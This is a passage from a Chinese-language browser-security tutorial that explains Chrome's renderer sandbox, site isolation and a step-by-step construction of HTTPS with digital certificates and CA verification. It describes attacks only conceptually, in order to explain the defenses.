那安全沙箱是如何影响到各个模块功能的呢？

### 持久存储

我们先来看看安全沙箱是如何影响到浏览器持久存储的。由于安全沙箱需要负责确保渲染进程无法直接访问用户的文件系统，但是在渲染进程内部有访问 Cookie 的需求、有上传文件的需求，为了解决这些文件的访问需求，所以现代浏览器将读写文件的操作全部放在了浏览器内核中实现，然后通过 IPC 将操作结果转发给渲染进程。

具体地讲，如下文件内容的读写都是在浏览器内核中完成的：

- 存储 Cookie 数据的读写。通常浏览器内核会维护一个存放所有 Cookie 的 Cookie 数据库，然后当渲染进程通过 JavaScript 来读取 Cookie 时，渲染进程会通过 IPC 将读取 Cookie 的信息发送给浏览器内核，浏览器内核读取 Cookie 之后再将内容返回给渲染进程。
- 一些缓存文件的读写也是由浏览器内核实现的，比如网络文件缓存的读取。

### 网络访问

同样有了安全沙箱的保护，在渲染进程内部也是不能直接访问网络的，如果要访问网络，则需要通过浏览器内核。不过浏览器内核在处理 URL 请求之前，会检查渲染进程是否有权限请求该 URL，比如检查 XMLHttpRequest 或者 Fetch 是否是跨站点请求，或者检测 HTTPS 的站点中是否包含了 HTTP 的请求。

### 用户交互

渲染进程实现了安全沙箱，还影响到了一个非常重要的用户交互功能。

通常情况下，如果你要实现一个 UI 程序，操作系统会提供一个界面给你，该界面允许应用程序与用户交互，允许应用程序在该界面上进行绘制，比如 Windows 提供的是 HWND，Linux 提供的 X Window，我们就把 HWND 和 X Window 统称为窗口句柄。应用程序可以在窗口句柄上进行绘制和接收键盘鼠标消息。

不过在现代浏览器中，由于每个渲染进程都有安全沙箱的保护，所以在渲染进程内部是无法直接操作窗口句柄的，这也是为了限制渲染进程监控到用户的输入事件。

由于渲染进程不能直接访问窗口句柄，所以渲染进程需要完成以下两点大的改变。

1. 渲染进程需要渲染出位图。为了向用户显示渲染进程渲染出来的位图，渲染进程需要将生成好的位图发送到浏览器内核，然后浏览器内核将位图复制到屏幕上。
2. 操作系统没有将用户输入事件直接传递给渲染进程，而是将这些事件传递给浏览器内核。然后浏览器内核再根据当前浏览器界面的状态来判断如何调度这些事件，如果当前焦点位于浏览器地址栏中，则输入事件会在浏览器内核内部处理；如果当前焦点在页面的区域内，则浏览器内核会将输入事件转发给渲染进程。

之所以这样设计，就是为了限制渲染进程有监控到用户输入事件的能力，所以所有的键盘鼠标事件都是由浏览器内核来接收的，然后浏览器内核再通过 IPC 将这些事件发送给渲染进程。

上面我们分析了由于渲染进程引入了安全沙箱，所以浏览器的持久存储、网络访问和用户交互等功能都不能在渲染进程内直接使用了，因此我们需要把这些功能迁移到浏览器内核中去实现，这让原本比较简单的流程变得复杂了。

## 站点隔离（Site Isolation）

所谓站点隔离是指 Chrome 将同一站点（包含了相同根域名和相同协议的地址）中相互关联的页面放到同一个渲染进程中执行。

最开始 Chrome 划分渲染进程是以标签页为单位，也就是说整个标签页会被划分给某个渲染进程。但是，按照标签页划分渲染进程存在一些问题，原因就是一个标签页中可能包含了多个 iframe，而这些 iframe 又有可能来自于不同的站点，这就导致了多个不同站点中的内容通过 iframe 同时运行在同一个渲染进程中。

目前所有操作系统都面临着两个 A 级漏洞——幽灵（Spectre）和熔毁（Meltdown），这两个漏洞是由处理器架构导致的，很难修补，黑客通过这两个漏洞可以直接入侵到进程的内部，如果入侵的进程没有安全沙箱的保护，那么黑客还可以发起对操作系统的攻击。

所以如果一个银行站点包含了一个恶意 iframe，然后这个恶意的 iframe 利用这两个 A 级漏洞去入侵渲染进程，那么恶意程序就能读取银行站点渲染进程内的所有内容了，这对于用户来说就存在很大的风险了。

因此 Chrome 几年前就开始重构代码，将标签级的渲染进程重构为 iframe 级的渲染进程，然后严格按照同一站点的策略来分配渲染进程，这就是 Chrome 中的站点隔离。

实现了站点隔离，就可以将恶意的 iframe 隔离在恶意进程内部，使得它无法继续访问其他 iframe 进程的内容，因此也就无法攻击其他站点了。

值得注意是，2019 年 10 月 20 日 Chrome 团队宣布安卓版的 Chrome 已经全面支持站点隔离

# HTTPS：让数据传输更安全

浏览器安全主要划分为三大块内容：页面安全、系统安全和网络安全。前面我们用四篇文章介绍了页面安全和系统安全，也聊了浏览器和 Web 开发者是如何应对各种类型的攻击，本文是我们专栏的最后一篇，我们就接着来聊聊网络安全协议 HTTPS。

我们先从 HTTP 的明文传输的特性讲起，在上一个模块的三篇文章中我们分析过，起初设计 HTTP 协议的目的很单纯，就是为了传输超文本文件，那时候也没有太强的加密传输的数据需求，所以 HTTP 一直保持着明文传输数据的特征。但这样的话，在传输过程中的每一个环节，数据都有可能被窃取或者篡改，这也意味着你和服务器之间还可能有个中间人，你们在通信过程中的一切内容都在中间人的掌握中，如下图：



从上图可以看出，我们使用 HTTP 传输的内容很容易被中间人窃取、伪造和篡改，通常我们把这种攻击方式称为中间人攻击

具体来讲，在将 HTTP 数据提交给 TCP 层之后，数据会经过用户电脑、WiFi 路由器、运营商和目标服务器，在这中间的每个环节中，数据都有可能被窃取或篡改。比如用户电脑被黑客安装了恶意软件，那么恶意软件就能抓取和篡改所发出的 HTTP 请求的内容。或者用户一不小心连接上了 WiFi 钓鱼路由器，那么数据也都能被黑客抓取或篡改。

## 在 HTTP 协议栈中引入安全层

鉴于 HTTP 的明文传输使得传输过程毫无安全性可言，且制约了网上购物、在线转账等一系列场景应用，于是倒逼着我们要引入加密方案

从 HTTP 协议栈层面来看，我们可以在 TCP 和 HTTP 之间插入一个安全层，所有经过安全层的数据都会被加密或者解密，你可以参考下图：



从图中我们可以看出 HTTPS 并非是一个新的协议，通常 HTTP 直接和 TCP 通信，HTTPS 则先和安全层通信，然后安全层再和 TCP 层通信。也就是说 HTTPS 所有的安全核心都在安全层，它不会影响到上面的 HTTP 协议，也不会影响到下面的 TCP/IP，因此要搞清楚 HTTPS 是如何工作的，就要弄清楚安全层是怎么工作的。

总的来说，安全层有两个主要的职责：对发起 HTTP 请求的数据进行加密操作和对接收到 HTTP 的内容进行解密操作

我们知道了安全层最重要的就是加解密，那么接下来我们就利用这个安全层，一步一步实现一个从简单到复杂的 HTTPS 协议。

### 第一版：使用对称加密

提到加密，最简单的方式是使用对称加密。所谓对称加密是指加密和解密都使用的是相同的密钥

了解了对称加密，下面我们就使用对称加密来实现第一版的 HTTPS。

要在两台电脑上加解密同一个文件，我们至少需要知道加解密方式和密钥，因此，在 HTTPS 发送数据之前，浏览器和服务器之间需要协商加密方式和密钥，过程如下所示：


通过上图我们可以看出，HTTPS 首先要协商加解密方式，这个过程就是 HTTPS 建立安全连接的过程。为了让加密的密钥更加难以破解，我们让服务器和客户端同时决定密钥，具体过程如下：

- 浏览器发送它所支持的加密套件列表和一个随机数 client-random，这里的加密套件是指加密的方法，加密套件列表就是指浏览器能支持多少种加密方法列表。
- 服务器会从加密套件列表中选取一个加密套件，然后还会生成一个随机数 service-random，并将 service-random 和加密套件列表返回给浏览器。
- 最后浏览器和服务器分别返回确认消息。

这样浏览器端和服务器端都有相同的 client-random 和 service-random 了，然后它们再使用相同的方法将 client-random 和 service-random 混合起来生成一个密钥 master secret，有了密钥 master secret 和加密套件之后，双方就可以进行数据的加密传输了。

通过将对称加密应用在安全层上，我们实现了第一个版本的 HTTPS，虽然这个版本能够很好地工作，但是其中传输 client-random 和 service-random 的过程却是明文的，这意味着黑客也可以拿到协商的加密套件和双方的随机数，由于利用随机数合成密钥的算法是公开的，所以黑客拿到随机数之后，也可以合成密钥，这样数据依然可以被破解，那么黑客也就可以使用密钥来伪造或篡改数据了。

### 第二版：使用非对称加密

不过非对称加密能够解决这个问题，因此接下来我们就利用非对称加密来实现我们第二版的 HTTPS，不过在讨论具体的实现之前，我们先看看什么是非对称加密。

和对称加密只有一个密钥不同，非对称加密算法有 A、B 两把密钥，如果你用 A 密钥来加密，那么只能使用 B 密钥来解密；反过来，如果你要 B 密钥来加密，那么只能用 A 密钥来解密

在 HTTPS 中，服务器会将其中的一个密钥通过明文的形式发送给浏览器，我们把这个密钥称为公钥，服务器自己留下的那个密钥称为私钥。顾名思义，公钥是每个人都能获取到的，而私钥只有服务器才能知道，不对任何人公开。下图是使用非对称加密改造的 HTTPS 协议：



根据该图，我们来分析下使用非对称加密的请求流程。

- 首先浏览器还是发送加密套件列表给服务器。
- 然后服务器会选择一个加密套件，不过和对称加密不同的是，使用非对称加密时服务器上需要有用于浏览器加密的公钥和服务器解密 HTTP 数据的私钥，由于公钥是给浏览器加密使用的，因此服务器会将加密套件和公钥一道发送给浏览器。
- 最后就是浏览器和服务器返回确认消息。

这样浏览器端就有了服务器的公钥，在浏览器端向服务器端发送数据时，就可以使用该公钥来加密数据。由于公钥加密的数据只有私钥才能解密，所以即便黑客截获了数据和公钥，他也是无法使用公钥来解密数据的。

- 第一个是非对称加密的效率太低。这会严重影响到加解密数据的速度，进而影响到用户打开页面的速度。
- 第二个是无法保证服务器发送给浏览器的数据安全。虽然浏览器端可以使用公钥来加密，但是服务器端只能采用私钥来加密，私钥加密只有公钥能解密，但黑客也是可以获取得到公钥的，这样就不能保证服务器端数据的安全了。

### 第三版：对称加密和非对称加密搭配使用

基于以上两点原因，我们最终选择了一个更加完美的方案，那就是在传输数据阶段依然使用对称加密，但是对称加密的密钥我们采用非对称加密来传输。下图就是改造后的版本：



从图中可以看出，改造后的流程是这样的：

- 首先浏览器向服务器发送对称加密套件列表、非对称加密套件列表和随机数 client-random；
- 服务器保存随机数 client-random，选择对称加密和非对称加密的套件，然后生成随机数 service-random，向浏览器发送选择的加密套件、service-random 和公钥；
- 浏览器保存公钥，并利用 client-random 和 service-random 计算出来 pre-master，然后利用公钥对 pre-master 加密，并向服务器发送加密后的数据；
- 最后服务器拿出自己的私钥，解密出 pre-master 数据，并返回确认消息。

到此为止，服务器和浏览器就有了共同的 client-random、service-random 和 pre-master，然后服务器和浏览器会使用这三组随机数生成对称密钥，因为服务器和浏览器使用同一套方法来生成密钥，所以最终生成的密钥也是相同的。

有了对称加密的密钥之后，双方就可以使用对称加密的方式来传输数据了。

需要特别注意的一点，pre-master 是经过公钥加密之后传输的，所以黑客无法获取到 pre-master，这样黑客就无法生成密钥，也就保证了黑客无法破解传输过程中的数据了

### 第四版：添加数字证书

通过对称和非对称混合方式，我们完美地实现了数据的加密传输。不过这种方式依然存在着问题，比如我要打开极客时间的官网，但是黑客通过 DNS 劫持将极客时间官网的 IP 地址替换成了黑客的 IP 地址，这样我访问的其实是黑客的服务器了，黑客就可以在自己的服务器上实现公钥和私钥，而对浏览器来说，它完全不知道现在访问的是个黑客的站点。

所以我们还需要服务器向浏览器提供证明“我就是我”，那怎么证明呢？

这里我们结合实际生活中的一个例子，比如你要买房子，首先你需要给房管局提交你买房的材料，包括银行流水、银行证明、身份证等，然后房管局工作人员在验证无误后，会发给你一本盖了章的房产证，房产证上包含了你的名字、身份证号、房产地址、实际面积、公摊面积等信息。

在这个例子中，你之所以能证明房子是你自己的，是因为引进了房管局这个权威机构，并通过这个权威机构给你颁发一个证书

对于浏览器来说，数字证书有两个作用：一个是通过数字证书向浏览器证明服务器的身份，另一个是数字证书里面包含了服务器公钥。

接下来我们看看含有数字证书的 HTTPS 的请求流程，你可以参考下图：



相较于第三版的 HTTPS 协议，这里主要有两点改变：

- 服务器没有直接返回公钥给浏览器，而是返回了数字证书，而公钥正是包含在数字证书中的；
- 在浏览器端多了一个证书验证的操作，验证了证书之后，才继续后续流程。

通过引入数字证书，我们就实现了服务器的身份认证功能，这样即便黑客伪造了服务器，但是由于证书是没有办法伪造的，所以依然无法欺骗用户。

## 数字证书的申请和验证

在第四版的 HTTPS 中，我们提到过，有了数字证书，黑客就无法欺骗用户了，不过我们并没有解释清楚如何通过数字证书来证明用户身份，所以接下来我们再来把这个问题解释清楚。

### 如何申请数字证书

我们先来看看如何向 CA 申请证书。比如极客时间需要向某个 CA 去申请数字证书，通常的申请流程分以下几步：

- 首先极客时间需要准备一套私钥和公钥，私钥留着自己使用；
- 然后极客时间向 CA 机构提交公钥、公司、站点等信息并等待认证，这个认证过程可能是收费的；
- CA 通过线上、线下等多种渠道来验证极客时间所提供信息的真实性，如公司是否存在、企业是否合法、域名是否归属该企业等；
- 如信息审核通过，CA 会向极客时间签发认证的数字证书，包含了极客时间的公钥、组织信息、CA 的信息、有效时间、证书序列号等，这些信息都是明文的，同时包含一个 CA 生成的签名。

这样我们就完成了极客时间数字证书的申请过程。前面几步都很好理解，不过最后一步数字签名的过程还需要解释下：首先 CA 使用 Hash 函数来计算极客时间提交的明文信息，并得出信息摘要；然后 CA 再使用它的私钥对信息摘要进行加密，加密后的密文就是 CA 颁给极客时间的数字签名。这就相当于房管局在房产证上盖的章，这个章是可以去验证的，同样我们也可以通过数字签名来验证是否是该 CA 颁发的。

### 如何验证数字证书

有了 CA 签名过的数字证书，当浏览器向极客时间服务器发出请求时，服务器会返回数字证书给浏览器。

浏览器接收到数字证书之后，会对数字证书进行验证。首先浏览器读取证书中相关的明文信息，采用 CA 签名时相同的 Hash 函数来计算并得到信息摘要 A；然后再利用对应 CA 的公钥解密签名数据，得到信息摘要 B；对比信息摘要 A 和信息摘要 B，如果一致，则可以确认证书是合法的，即证明了这个服务器是极客时间的；同时浏览器还会验证证书相关的域名信息、有效时间等信息。

这时候相当于验证了 CA 是谁，但是这个 CA 可能比较小众，浏览器不知道该不该信任它，然后浏览器会继续查找给这个 CA 颁发证书的 CA，再以同样的方式验证它上级 CA 的可靠性。通常情况下，操作系统中会内置信任的顶级 CA 的证书信息（包含公钥），如果这个 CA 链中没有找到浏览器内置的顶级的 CA，证书也会被判定非法。

另外，在申请和使用证书的过程中，还需要注意以下三点：

- 申请数字证书是不需要提供私钥的，要确保私钥永远只能由服务器掌握；
- 数字证书最核心的是 CA 使用它的私钥生成的数字签名；
- 内置 CA 对应的证书称为根证书，根证书是最权威的机构，它们自己为自己签名，我们把这称为自签名证书。
